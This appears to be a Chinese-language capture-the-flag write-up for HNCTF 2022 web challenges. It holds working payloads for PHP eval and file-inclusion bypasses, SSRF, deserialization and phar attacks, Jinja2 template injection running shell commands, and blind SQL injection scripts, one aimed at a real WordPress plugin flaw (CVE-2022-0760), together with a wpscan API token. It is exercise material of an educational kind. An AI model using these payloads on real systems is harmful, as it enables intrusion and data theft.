




闲下来了写写wp，写下web和jail

## web[Week1]

### What is Web

flag就在源码里



### Interesting_http

经典的**POST->Cookie->X-Forwarded-For(or Referer)**

### 2048

2048.js源码中找到flag的弹窗



console执行一下就行

### easy_html

cookie中发现`.%2Ff14g.php`，访问`/f14g.php`

发现登录框，要输入11位的手机号



**maxlength**改大一点，随便输入一串长度为11的字符串得到flag

### Interesting_http

```php
<?php
//WEB手要懂得搜索
//flag in ./flag.php

if(isset($_GET['filter'])){
    $file = $_GET['filter'];
    if(!preg_match("/flag/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

老经典了

```
http://43.143.7.97:28302/?filter=php://filter/read=convert.base64-encode/resource=flag.php
```

### easy_upload

简单的文件上传

**Content-Type**的绕过

### Challenge__rce

```php
<?php
error_reporting(0);
if (isset($_GET['hint'])) {
    highlight_file(__FILE__);
}
if (isset($_POST['rce'])) {
    $rce = $_POST['rce'];
    if (strlen($rce) <= 120) {
        if (is_string($rce)) {
            if (!preg_match("/[!@#%^&*:'\-<?>\"\/|`a-zA-Z~\\\\]/", $rce)) {
                eval($rce);
            } else {
                echo("Are you hack me?");
            }
        } else {
            echo "I want string!";
        }
    } else {
        echo "too long!";
    }
}
```

**hint:灵感来源于ctfshow吃瓜杯Y4大佬的题**

利用php中字母可以按顺序自增的原理，通过数组转字符串来得到字符串"Array"从而构造rce

```php
<?php
$_0.=[];
$_=$_0[3];
$_++;
$__.=++$_;
$_++;$_++;$_++;$_++;
$__.=++$_.$_0[1];
$_=_.$__(71).$__(69).$__(84);


#rce=%24_0.%3D%5B%5D%3B%24_%3D%24_0%5B3%5D%3B%24_%2B%2B%3B%24__.%3D%2B%2B%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__.%3D%2B%2B%24_.%24_0%5B1%5D%3B%24_%3D_.%24__(71).%24__(69).%24__(84)%3B%24%24_%5B1%5D($$_[0])%3B
```

对字符串长度进行了限制，关键点就是先构造**chr**这个函数从而利用没过滤的数字来rce

## web[week2]

### easy_include

```php
<?php
//WEB手要懂得搜索

if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|flag|data|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

nginx 日志包含

### ez_ssrf

```php
<?php

highlight_file(__FILE__);
error_reporting(0);

$data=base64_decode($_GET['data']);
$host=$_GET['host'];
$port=$_GET['port'];

$fp=fsockopen($host,intval($port),$error,$errstr,30);
if(!$fp) {
    die();
}
else {
    fwrite($fp,$data);
    while(!feof($data))
    {
        echo fgets($fp,128);
    }
    fclose($fp);
}
```

扫目录可以看到**flag.php**

`🥰localhost plz🥰`

要内网才能访问，很明显不是`X-Forwarded`伪造

可以写个http包

```php
<?php
$fp = fsockopen("www.example.com", 80, $errno, $errstr, 30);
if (!$fp) {
    echo "$errstr ($errno)<br />\n";
} else {
    $out = "GET / HTTP/1.1\r\n";
    $out .= "Host: www.example.com\r\n";
    $out .= "Connection: Close\r\n\r\n";
    fwrite($fp, $out);
    while (!feof($fp)) {
        echo fgets($fp, 128);
    }
    fclose($fp);
}
?> 
```

这是官方文档上的基本用法

很奇怪的一点就是`feof`打开的是一个文件指针，而本题里面是**data**字符串



但是这样能打出来。。。。很怪，官方源码也确实是这个，太太太太怪了

```php
<?
$out = "GET /flag.php HTTP/1.1\r\n";
$out .= "Host: 127.0.0.1\r\n";
$out .= "Connection: Close\r\n\r\n";
echo base64_encode($out);
?>

生成payload，

http://ip:port/index.php?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo=
```

### Canyource

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['code'])&&!preg_match('/url|show|high|na|info|dec|oct|pi|log|data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['code'])){
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);}
else
    die('nonono');}
else
    echo('please input code');
?> 
```

常规的无参rce

```php
print(base64_encode(file_get_contents(array_rand(array_flip(scandir(pos(localeconv())))))));
```

### easy_unser

```php
<?php 
    include 'f14g.php';
    error_reporting(0);

    highlight_file(__FILE__);

    class body{

    private $want,$todonothing = "i can't get you want,But you can tell me before I wake up and change my mind";

    public function  __construct($want){
        $About_me = "When the object is created,I will be called";
        if($want !== " ") $this->want = $want;
        else $this->want = $this->todonothing;
    }
    function __wakeup(){
        $About_me = "When the object is unserialized,I will be called";
        $but = "I can CHANGE you";
        $this-> want = $but;
        echo "C1ybaby!";
        
    }
    function __destruct(){
        $About_me = "I'm the final function,when the object is destroyed,I will be called";
        echo "So,let me see if you can get what you want\n";
        if($this->todonothing === $this->want)
            die("鲍勃,别傻愣着!\n");
        if($this->want == "I can CHANGE you")
            die("You are not you....");
        if($this->want == "f14g.php" OR is_file($this->want)){
            die("You want my heart?No way!\n");
        }else{
            echo "You got it!";
            highlight_file($this->want);
            }
    }
}

    class unserializeorder{
        public $CORE = "人类最大的敌人,就是无序. Yahi param vaastavikta hai!<BR>";
        function __sleep(){
            $About_me = "When the object is serialized,I will be called";
            echo "We Come To HNCTF,Enjoy the ser14l1zti0n <BR>";
        }
        function __toString(){
            $About_me = "When the object is used as a string,I will be called";
            return $this->CORE;
        }
    }
    
    $obj = new unserializeorder();
    echo $obj;
    $obj = serialize($obj);
    

    if (isset($_GET['ywant']))
    {
        $ywant = @unserialize(@$_GET['ywant']);
        echo $ywant;
    }
?>
```

看着很长，其实就是个`is_file`的绕过。。。根本不像反序列化

`highlight_file`可以使用php伪协议，而is_file判断是false(绕过一下wakeup)

```php
<?php 

class body{

    private $want;

    function __construct($want){
        $this->want = $want;
    }
}

class unserializeorder{
    public $CORE = "php://filter/read=convert.base64-encode/resource=f14g.php";
}

$a = new body(new unserializeorder());

echo urlencode(serialize($a));
?>
```

### easy_sql

盲注

```python
import requests

url='http://43.143.7.127:28931/index.php'
str=',0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefgh*--  ijklmnopqrstuvwxyz{}'
flag='nssctf{'
for j in range(1,1000):
    for i in range(len(str)):
        pay=flag+str[i]
        data={'id':f"0'||(('{pay}')<(select/**/*/**/from/**/ctftraining.flag/**/limit/**/1));\x00"}
        print(data)
        r=requests.post(url,data=data)
        # print(r.text)
        if 'I am so handsome' not in r.text:
            if str[i-1]==',':
                flag+='-'
            else:
                flag+=str[i-1]
            print(flag)
            break
```

当时不知道怎么就注出来了，但是现在有点bug，改改换成ascii就行

其实就是一个无列名注入

因为**information_schema**被过滤了，可以用**InnoDB**代替，但是查不到列名

我这种比较的做法属于是另辟蹊径了

正常做法

```bash
0'union/**/select/**/1,2,group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name='ctftraining
```

### ez_SSTI

字符串拼接即可

```bash
http://43.143.7.97:28254/?name={{config.__class__.__init__.__globals__['os']['popen']('cat flag').read()}}
```

### ohmywordpress

先用在docker上装的wpscan扫一下

```bash
docker run -it --rm wpscanteam/wpscan --url http://43.143.7.97:28020/ --enumerate u --random-user-agent --api-token UaseeavNdaG99aDLEBlasGIhOn3BntZpQf4E4Zwh6CA
```

必须要用`--random-user-agent`默认的useragen应该被ban了，没任何回显

可以看到是**[CVE-2022-0760](https://wpscan.com/vulnerability/1c83ed73-ef02-45c0-a9ab-68a3468d2210)**

```bash
curl 'http://example.com/wp-admin/admin-ajax.php' --data 'action=qcopd_upvote_action&post_id=(SELECT 3 FROM (SELECT SLEEP(5))enz)' 
```

盲注脚本

```python
import requests
import time

url = 'http://1.14.71.254:28504/wp-admin/admin-ajax.php'

dicts = r'NSSCTF{-abcdef0123456789}'

flag = ''

for i in range(1,99999):
    for s in dicts:
        payload = "(SELECT 3 FROM (SELECT if(ascii(substr((select group_concat(flag) from ctftraining.flag),{},1))={}, sleep(5),0))enz)".format(i,ord(s))
        start_time = time.time()
        print(s)
        res = requests.post(url,data={
            'action': 'qcopd_upvote_action',
            'post_id': payload
            })
        stop_time = time.time()
        if stop_time - start_time >= 5:
            flag += s
            print('FOUND!!!',flag)
            break
```

也可以**sqlmap**梭

```bash
python .\sqlmap.py -u http://1.14.71.254:28423/wp-admin/admin-ajax.php --data 'action=qcopd_upvote_action&post_id=1' -p post_id --dbms mysql --random-agent -D ctftraining -T flag --dump
```

在给出的docker环境里可以看到数据库中**flag**的位置

## web[week3]

### ez_phar

```php
<?php
show_source(__FILE__);
class Flag{
    public $code;
    public function __destruct(){
    // TODO: Implement __destruct() method.
        eval($this->code);
    }
}
$filename = $_GET['filename'];
file_exists($filename);
?>
```

**file_exists**是存在**phar反序列化**漏洞的

所以就是一个简单的**phar反序列化**

### Fun_php

全套弱类型，有的地方成功了还没**echo**。。太难了

贴个pysnow师傅的详解

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include "k1y.php";
include "fl4g.php";
$week_1 = false;
$week_2 = false;

$getUserID = @$_GET['user']; 
$getpass = (int)@$_GET['pass']; 
$getmySaid = @$_GET['mySaid']; 
$getmyHeart = @$_GET['myHeart']; 

$data = @$_POST['data'];
$verify =@$_POST['verify'];
$want = @$_POST['want'];
$final = @$_POST['final'];

if("Welcom"==0&&"T0"==0&&"1he"==1&&"HNCTF2022"==0)
    echo "Welcom T0 1he HNCTF2022<BR>";

if("state_HNCTF2022" == 1) echo $hint;
    else echo "HINT? NoWay~!<BR>";


if(is_string($getUserID))
    $user = $user + $getUserID; //u5er_D0_n0t_b3g1n_with_4_numb3r
    // user 变量等于$user原本的值拼接上传参

if($user == 114514 && $getpass == $pass){
    // $user == 114514 php弱比较，所以直接传user=114514就行，因为aaaaa114514 == 114514
    // $getpass == $pass，随便传一个字符串或者数字0就会自动转化成0, 然后弱比较一个字符串为true
    if (!ctype_alpha($getmySaid)) 
    // mySaid必须为字符串
        die();
    if (!is_numeric($getmyHeart)) 
    // myHeart必须为数字
        die();
    if(md5($getmySaid) != md5($getmyHeart)){
        // 直接用特殊值md5就行,网上很多 以下是一些字符串md5值以0e开头 QNKCDZO 240610708 s878926199a s155964671a s21587387a
        die("Cheater!");
    }
    else
        $week_1 = true;
}

if(is_array($data)){
    for($i=0;$i<count($data);$i++){

        if($data[$i]==="Probius") exit();

        $data[$i]=intval($data[$i]);
    }
    if(array_search("Probius",$data)===0)
    // array_search弱比较，老考点了，直接传一个字符串或者数字0就行，data[]=a data[]=0
        $week_2 = true;

    else
        die("HACK!");
}
if($week_1 && $week_2){
    if(md5($data)===md5($verify))
        // ‮⁦HNCTF⁩⁦Welcome to
        if ("hn" == $_GET['hn'] &‮⁦+!!⁩⁦& "‮⁦ Flag!⁩⁦ctf" == $_GET[‮⁦LAG⁩⁦ctf]) { //HN! flag!! F
        // unicode，也是老考点了，直接复制下来然后url编码一下就行
            if(preg_match("/php|\fl4g|\\$|'|\"/i",$want)Or is_file($want))
                die("HACK!");

                else{
                    echo "Fine!you win";
                    system("cat ./$want");
                    // 使用?通配符，fl4g.php == f???????
                 }
    }
    else
        die("HACK!");
}

?>
```

### logjjjjlogjjjj


### ssssti

还是挺简单的**ssti**

```bash
http://43.143.7.97:28235/?name={{(x|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3))(request.values.x4).eval(request.values.x5)}}&x1=__init__&x2=__globals__&x3=__getitem__&x4=__builtins__&x5=__import__(%27os%27).popen(%27cat%20/flag%27).read()
```

